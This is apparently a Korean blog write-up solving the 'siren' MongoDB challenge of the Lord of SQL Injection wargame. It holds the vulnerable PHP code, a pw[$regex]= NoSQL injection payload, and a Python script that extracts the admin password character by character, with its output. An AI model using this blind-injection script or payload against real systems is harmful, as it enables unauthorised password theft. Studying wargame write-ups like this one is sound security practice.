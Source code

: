 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - siren 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`MongoDB`의 두 번째 문제인 `siren`이다.  

이번 문제를 풀기 위해서는 소스코드를 구현해야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : {"id":null,"pw":null}
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['id']) echo "<h2>Hello User</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['pw'] === $_GET['pw']) solve("siren");
  highlight_file(__FILE__);
?>
```

이번 문제를 풀기 위해서는 `id`가 `admin`일 때의 `pw` 값을 정확하게 알아야 한다.  

따라서 `Blind SQL Injection`을 사용하여 `pw`의 값을 알아내야 한다.  

어떻게 풀까 찾아 보다가 `$regex`를 찾을 수 있었다.  

`$regex`을 사용하면 정규표현식을 활용 해 패턴으로 검색을 할 수 있다.  

사용법은 다음과 같다.  

```
?id=admin&pw[$regex]=^
```

여기서 `^`는 `MySQL`에서의 `%`와 같은 역할을 한다.  

따라서 `^` 뒤에 문자를 하나씩 추가 해 `pw`의 값을 하나 씩 알아낼 수 있다.  

이를 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""

url = "https://los.rubiya.kr/chall/siren_9e402fc1bc38574071d8369c2c3819ba.php?id=admin&pw[$regex]="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 10):
	for i in range(48, 123):
		if i != 0x3f:
			found = 0
			try:
				query = url + "^" + flag + chr(i)
				r = requests.post(query, cookies=session)
			except:
				print "[-] Error occur"
				continue

			if 'Hello User' in r.text:
				flag += chr(i)
				found = 1
				print "[+] Found " + str(j), ":", flag
				break
	if not found:
		break

print "[+] Found password : ", flag
print "[+] End"
```

실행 한 결과는 다음과 같다.  

```
$ python ex.py
[+] Start
[+] Find password
[+] Found 1 : 1
[+] Found 2 : 15
[+] Found 3 : 158
[+] Found 4 : 1588
[+] Found 5 : 1588f
[+] Found 6 : 1588f5
[+] Found 7 : 1588f5a
[+] Found 8 : 1588f5a3
[+] Found password :  1588f5a3
[+] End
```

결과로 나온 값을 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=admin&pw=1588f5a3
```

```php
----------------------------------------------------------
query : {"id":"admin","pw":"1588f5a3"}
----------------------------------------------------------

Hello User
SIREN Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['id']) echo "<h2>Hello User</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_siren->find($query));
  if($result['pw'] === $_GET['pw']) solve("siren");
  highlight_file(__FILE__);
?>
```

`SIREN Clear`
